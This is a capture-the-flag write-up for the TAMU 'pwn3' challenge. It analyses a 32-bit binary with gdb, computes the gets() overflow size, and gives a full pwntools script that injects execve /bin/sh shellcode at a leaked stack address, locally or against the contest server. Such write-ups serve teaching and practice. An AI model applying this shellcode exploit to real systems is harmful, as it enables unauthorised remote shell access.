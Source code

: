 # pwn3

For pwn3 let's start how we always do and get this binary into our Linux VM to take a look at it!  As always we are going to start with the three commands file, strings, and gdb's checksec.

```
user@ubuntu:~/TAMU$ file pwn3
pwn3: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=5b8bcbe552d4097fbb9a1fe8612c45cfec687a01, not stripped
```
```
user@ubuntu:~/TAMU$ strings pwn3
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
gets
puts
printf
stdout
setvbuf
__libc_start_main
__gmon_start__
GLIBC_2.0
```
```
gdb-peda$ checksec
CANARY : disabled
FORTIFY : disabled
NX : disabled
PIE : disabled
RELRO : Partial
```

So we can see from these three commands that we have a 32-bit ELF style Linux executable.  We can see the gets command at the top of the strings file but no other hints there.  And from checksec we can see that most protections are disabled.

Now, let's run the file to see what it does!

![imag](https://killyp.com/wp-content/uploads/2018/03/Capture.jpg)

So, this looks like a repeat of the pwn2 problem except there will not be a deprecated print_flag function when we open it in IDA.  Also, that random number looks a whole lot like an address on the Stack.  I would bet this problem has ASLR and that is a hint, but we will verify this in gdb.  So let's open it in IDA and see if we can find that "_gets" call we saw in the strings dump.

![ida](https://killyp.com/wp-content/uploads/2018/03/Capture-1.jpg)

Just like I suspected, there is no print_flag function just hanging out and the _gets call with no bounds checking is used to grab the user input.  We can almost certainly exploit this to gain control of the instruction pointer.  Now, run it in gdb to verify that random number is on the stack and to exploit the gets vulnerability.  After we get it open in gdb set a break-point at the leave instruction in the Echo function and then throw a bunch of "A"s at stdin.

```
gdb-peda$ b *0x08048520
Breakpoint 1 at 0x8048520
gdb-peda$ r
Starting program: /home/user/TAMU/pwn3 
Welcome to the New Echo application 2.0!
Changelog:
- Less deprecated flag printing functions!
- New Random Number Generator!

Your random number 0xffffce1a!
Now what should I echo? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, at 0x08048520 in echo ()

gdb-peda$ x/x $ebp
0xffffcf08: 0xffffcf18

gdb-peda$ x/64xw $esp
0xffffce10: 0x00000001 0xf7fb7da7 0x41410001 0x41414141
0xffffce20: 0x41414141 0x41414141 0x41414141 0x41414141
0xffffce30: 0x41414141 0x41414141 0x41414141 0x41414141
0xffffce40: 0x41414141 0x41414141 0x41414141 0x41414141
0xffffce50: 0x41414141 0x41414141 0xf7ff0041 0xf7fb7d60
0xffffce60: 0x00000001 0x0000000a 0xf7fb8870 0xf7e6f12d
0xffffce70: 0xf7fb7d60 0x08048660 0xf7fb7d60 0xf7e6f47b
0xffffce80: 0xf7fb7d60 0xf7fb7da7 0x00000001 0xf7e6f3ac
0xffffce90: 0xf7fb7000 0xf7fb7d60 0xf7fb8870 0xf7e6fe12
0xffffcea0: 0xf7fb7d60 0x0000000a 0x00000000 0xf7fb7000
0xffffceb0: 0xf7e6fdd7 0xf7fb7000 0x00000055 0xf7e64dfb
0xffffcec0: 0xf7fb7d60 0x0000000a 0x00000055 0x0000bf17
0xffffced0: 0xf7fe77eb 0xf7e04700 0x00000000 0xf7fb7d60
0xffffcee0: 0xffffcf18 0xf7fee010 0xf7e64cab 0x00000000
0xffffcef0: 0xf7fb7000 0xf7fb7000 0xffffcf18 0x08048564
0xffffcf00: 0x08048660 0x00000002 0xffffcf18 0x0804856c
```


Alright!  So what important information can we get out of that?  We can see that, indeed, the random number they gave us is the location on the stack that our input begins at.  Since the location on the stack that our input is being saved to is randomized, we can safely assume that ASLR is enabled.  This would normally be an inconvenience if our goal was to execute shellcode on the stack but since they tell us where it is at every time, we can use this information to execute on the stack.  We can also tell the size of the buffer by subtracting the location of our input from the current $ebp.  Also, be aware that even though ASLR is turned on and randomizing the addresses on the stack, it is only randomizing the base address. This means that the difference between addresses on the stack will be the same every time.

The location of our $ebp (0xffffcf08) minus the location of our input (0xffffce1a) gives us a buffer size of 0xEE.  Add 4 to this to account for the old saved $ebp register and our overflow needs to be 0xF2, 242 decimal, bytes long.

Our goal, with this exploit, is to read the flag.txt file that is in the same directory as the binary we are attacking.  To do this we will spawn a remote shell in that directory by having the binary execute our shellcode.  If you are unfamiliar with shellcode, it is essentially compiled assembly code that tells the system to do something (usually spawn a shell).  It is special in that it needs to avoid certain bytes such as any NULL bytes.  This is because strings are NULL terminated and our shellcode is being read in as stdin into a string.  While reading in our exploit, if it comes across a NULL byte it will stop reading in and we won't have loaded our full exploit. This is important to know if you write your own shellcode (which I highly recommend you practice) but for this example, we will just grab one off of shellstorm that will execve /bin/sh so we get a shell.

The layout of our exploit will be:

shellcode + A's to fill remaining overflow + address to shellcode

To build our exploit we will use the python library, pwntools.  This library is fantastic when it comes to writing quick exploits and takes out all of the network programming usually needed for a remote exploit.

Our python exploit then ends up looking like this:

```python
#!/usr/bin/env python
import pwn
import time
import sys


# Constants
BUFFERSIZE = 242
SHELLCODE = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\xC3"
OVERFLOW = "A" * (BUFFERSIZE - len(SHELLCODE))

def usage():
    print "Usage: %s [FLAGS]" % sys.argv[0]
    print "\nFLAG\t\t\tOption"
    print "-l\t\t\tLocal (Default)"
    print "-r\t\t\tRemote\n"
    return

def setup(argv = ""):
    #Local Exploit
    if argv == "-l" or argv == "":
        r = pwn.process("./pwn3")

    #Remote Exploit
    elif argv == "-r":
        r = pwn.remote("pwn.ctf.tamu.edu", 4323)

    #Usage not correct
    else:
        usage()
        return

    #Build Payload and EXPLOIT!!!
    exploit(r, buildPayload(r))

def buildPayload(r):
    # Build payload
    payload = ""
    payload += SHELLCODE		# Add Shellcode
    payload += OVERFLOW			# Add overflow of 'A'
    payload += getStackAddress(r)	# Parse address and add to payload
    return(payload)

def getStackAddress(r):
    r.recvuntil('0x')
    address = r.recvuntil('!')		# Address with exclamation
    address = address.split('!')[0]	# Strip exclamation off of address
    address = int(address, 16)		# Convert from string to hex integer
    address = pwn.p32(address)		# Pack into Little Endian address string
    return(address)

def exploit(r, payload):
    r.recv()				# Revieve until prompted for input
    r.sendline(payload)			# Send our payload (stackoverflow and ROPChain)
    r.interactive()			# Keep the shell alive with Interactive command

if __name__ == "__main__":
    if len(sys.argv) > 2:
        usage()
    elif len(sys.argv) == 2:
        setup(sys.argv[1])
    else:
        setup()

```
So let's run it!
![exploit](https://killyp.com/wp-content/uploads/2018/03/Capture-2.jpg)
